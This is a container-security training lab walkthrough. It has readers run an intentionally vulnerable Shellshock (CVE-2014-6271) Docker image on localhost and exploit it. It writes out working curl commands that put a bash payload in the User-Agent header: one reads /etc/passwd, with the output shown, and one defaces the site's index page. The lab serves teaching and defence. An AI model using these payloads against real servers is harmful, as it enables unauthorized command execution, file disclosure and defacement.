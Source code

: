 ## Vulnerable/Outdated Libraries - Shell-Shock (Bashdoor) 

###### Some containers that are often used and available on `dockerhub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock is one such vulnerability found in older versions of bash that haven't been updated.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)


##### Step 2:

* Run the image vulnerable to shell-shock by running `docker run -d -it -p 8080:80 vulnerables/cve-2014-6271`

    ```commandline
    root@we45:~# docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
    208ee69b40e260c5605cde5faca67e0428c7fe80a237b5cd5767f9e2e734f03d
    root@we45:~#
    ```


##### Step 3:

* Open the browser and go to `http://localhost:8080` to verify if the application is running.

![](img/shellshock-browser.png)


##### Step 4:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable` to exploit the vulnerability and access the `/etc/passwd` file on the vulnerable container.

```commandline
root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
> http://localhost:8080/cgi-bin/vulnerable

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```


##### Step 5:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable` to deface the website.

```commandline
root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable
```


##### Step 6:

* Access `http://localhost:8080` on browser to confirm.

![](img/defaced.png)


##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```

